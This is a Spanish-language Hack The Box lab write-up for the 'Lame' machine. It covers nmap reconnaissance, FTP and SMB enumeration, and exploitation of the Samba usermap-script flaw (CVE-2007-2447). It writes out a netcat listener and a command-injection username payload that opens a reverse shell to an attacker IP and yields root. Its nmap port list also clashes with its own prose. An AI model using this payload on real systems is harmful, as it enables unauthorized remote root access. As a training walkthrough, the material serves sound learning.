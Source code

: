 ```yaml
---
title: Lame
date: '2023-07-07'
lastmod: '2023-08-05'
tags: ['labs', 'HackTheBox']
draft: false
summary: 'Lame es una máquina de nivel principiante que solo requiere un exploit para obtener acceso root. Fue la primera máquina publicada en Hack The Box y a menudo es la primera máquina para nuevos usuarios.'
images: ['/static/images/htb/lame/Lame.png']
---
```


![Portada](/static/images/htb/Lame/Lame.png)

# [CHECK OUT THE VIDEO TUTORIAL](https://www.youtube.com/watch?v=qDNVy6n9Jds)

<TOCInline toc={props.toc} exclude="Introduccion" />

## RECONNAISANCE

### Ping

Primero, verificamos que estamos en la misma red que la máquina víctima enviando un paquete de datos a la IP 10.10.10.3 usando el comando ping.

```js
  ping -c 4 10.10.10.3
```

- `-c` : Número de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviarán..

![Ping](/static/images/htb/Lame/ping.png)

### Nmap

Luego, realizamos el escaneo de puertos.

```js
  nmap -p- --open 10.10.10.3 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Solo va a reportar los puertos que encuentre abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Nmap1](/static/images/htb/Lame/nmap1.png)

Al obtener la lista de los puertos abiertos en la maquina victima,realizamos otro escaneo pero solo a los que
nmap reporto como abiertos incluyendo las siguientes flags:

- `-sC` : Activa el escaneo utilizando scripts de enumeración y detección de servicios predeterminados. Los scripts se ejecutan contra los puertos abiertos para obtener información adicional sobre los servicios en ejecución.
- `-sV` : Realiza una detección de versión de los servicios que se encuentran en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando diversos métodos, como el envío de solicitudes específicas y la comparación de las respuestas recibidas.
- `-p` : Especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Indica a Nmap que realice el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes ICMP de solicitud de eco.

```js
  nmap -sC -sV -p21,22,19,445,62 10.10.10.3 -Pn
```

![Nmap2](/static/images/htb/Lame/nmap2.png)

### Puertos abiertos

| Puertos abiertos | Servicio    | Version              |
| ---------------- | ----------- | -------------------- |
| **_21/tcp_**     | ftp         | vsftpd 2.3.4         |
| **_22/tcp_**     | SSH         | Open SSH 4.7p1       |
| **_139/tcp_**    | netbios-ssn | Samba smbd 3.x - 4.x |
| **_445/tcp_**    | netbios-ssn | Samba smbd 3.0.20    |
| **_3632/tcp_**   | distccd     | distccd v1           |

## ENUMERACION

### Puerto 21 - FTP

El puerto 21 se utiliza comúnmente para el protocolo FTP (File Transfer Protocol), que es un protocolo estándar para la transferencia de archivos entre sistemas informáticos en una red. El protocolo FTP permite a los usuarios transferir archivos de un equipo a otro a través de una red. El puerto 21 se utiliza para establecer la conexión de control entre el cliente FTP y el servidor FTP. En esta conexión, el cliente envía comandos al servidor para solicitar operaciones como la autenticación del usuario, listar archivos en el servidor, crear directorios, descargar o subir archivos, entre otros. Es importante tener en cuenta que el protocolo FTP es un protocolo no seguro, ya que la información se transmite en texto plano, incluyendo las credenciales de inicio de sesión.

Al realizar una busqueda por google, encontramos que la `version 2.3.4` tiene una vulnerabilidad [CVE 2011-2523](https://www.exploit-db.com/exploits/49757).

![Exploit](/static/images/htb/Lame/exploit1.png)

Como se ve en el script, al aplicar el “:)” en el nombre del usuario y poner una contraseña cualquiera, se abriria el puerto 6200.
Pero, al tratar de realizar estos pasos y luego confirnar con nmap si el puerto 62000 esta abierto, nos reporta que esta filtrado. Por ende, no es vulnerable a esta accion.

En el reconocimiento con nmap, hallamos que el inicio de sesion anonimo estaba disponible, pero al ingresar vemos que el directorio esta vacio.

![Ftp](/static/images/htb/Lame/ftp.png)

### Puerto 22 - SSH

Como no tengo credenciales validas, continuo al siguiente puerto abierto.

### Puertos 139 - 445 - Samba (SMB)

SMB es un protocolo de red utilizado para compartir archivos, impresoras y otros recursos entre computadoras en una red. Se encuentra comúnmente en sistemas operativos basados en Unix y Linux, y se utiliza para establecer una conexión con un servidor SMB, explorar recursos compartidos, listar archivos y directorios, transferir archivos entre el cliente y el servidor, y ejecutar comandos remotos en el servidor SMB.

Para acceder a este servidor utilizamos `smbclient`. Al usar smbclient, puedes autenticarte en un servidor SMB proporcionando un nombre de usuario y una contraseña válidos. Una vez que hayas establecido una conexión con el servidor, puedes utilizar comandos similares a los de una interfaz de línea de comandos para interactuar con los recursos compartidos, como copiar archivos, eliminar archivos, crear directorios, obtener información sobre archivos y más.

```js
  smbclient -L 10.10.10.3
```

El comando "smbclient -L 10.10.10.3" se utiliza para enumerar los recursos compartidos disponibles en un servidor SMB específico.

Cuando ejecutas este comando, smbclient establece una conexión con el servidor SMB y solicita la lista de recursos compartidos disponibles en ese servidor.
Esto puede incluir carpetas compartidas, impresoras compartidas u otros recursos que estén configurados para compartir a través del protocolo SMB en el servidor.

![Ftp](/static/images/htb/Lame/smb1.png)

Con `smbmap` vemos los permisos en los dispositivos compartidos.

```js
  smbmap -H 10.10.10.3
```

![Ftp](/static/images/htb/Lame/smb2.png)

En la carpeta `tmp` tenemos permisos de lectura y escritura.

Vamos a buscar en searchsploit si esta version de smb tiene alguna vulnerabilidad conocida.

![Exploit](/static/images/htb/Lame/exploit.png)

Con el comando `searchsploit -x 16320.rn` podemos ver el codigo y entender que ocurre por detras o en google podemos verlo en [Exploit Database](https://www.exploit-db.com/) como [CVE 2007-2447](https://www.exploit-db.com/exploits/16320)

La parte mas importante del script esta aqui, al ingresar el nombre de usuario y pasarle el comando nohup ,seguido de un payload, le vamos a ingresar una reverse shell para que la maquina victima se conecte a la nuestra.

![Exploit](/static/images/htb/Lame/exploit2.png)

> En Linux, el comando nohup se utiliza para ejecutar un programa o script de manera persistente, incluso después de cerrar la terminal o sesión de inicio de sesión.

## EXPLOTACION

En nuestra maquina local vamos a ejecutar el comando `nc -nlvp 4646`.

Esto crea un listener en el puerto 4646 de la máquina local, lo que significa que Netcat estará a la espera de conexiones entrantes en ese puerto. Esto es útil para establecer una conexión de red entre dos máquinas y permitir que una de ellas actúe como servidor o receptor de datos en el puerto especificado.

- `-n`: Indica a Netcat que no realice la resolución inversa de las direcciones IP o nombres de host.
- `-l`: Activa el modo de escucha, permitiendo que Netcat escuche conexiones entrantes en lugar de iniciar una conexión saliente.
- `-v`: Habilita el modo verboose (detallado) y muestra información adicional sobre las conexiones entrantes y salientes.
- `-p 4646`: Especifica el número de puerto en el que Netcat debe escuchar las conexiones entrantes. En este caso, el puerto elegido es el 4646.

Por otro lado, cuando nos conectemos por ftp a la maquina victima y estemos dentro, usaremos el comando logon para autenticarnos y aprovecharemos de la vulnerabilidad antes mencionada pasndole como usuario:

```js
'/=`nohup nc -nv 10.10.14.10 4646 -e /bin/sh`'
```

El comando `nc -nv 10.10.14.10 4646 -e /bin/sh` utiliza la herramienta Netcat (nc) para establecer una conexión de red con la dirección IP `10.10.14.10` en el puerto 4646 y ejecutar el shell `(/bin/sh)` en el sistema remoto:

- `-n`: Esta opción indica a Netcat que no realice la resolución inversa de las direcciones IP o nombres de host.
- `-v`: Esta opción habilita el modo verbose (detallado) y muestra información adicional sobre las conexiones entrantes y salientes.
- `10.10.14.10`: Es la dirección IP del sistema remoto al que se desea conectarse.
- `4646`: Es el número de puerto en el que se establecerá la conexión.
- `-e /bin/sh`: Especifica el comando que se ejecutará en el sistema remoto una vez que se establezca la conexión. En este caso, se ejecutará el shell ("/bin/sh"), lo que nos va a proporcionar una interfaz de línea de comandos en el sistema remoto.

![Explotacion](/static/images/htb/Lame/explotacion.png)

Una vez dentro, vemos que somos el usuario privilegiado root y vamos por las banderas user.txt y root.txt.
![Fin](/static/images/htb/Lame/fin.png)
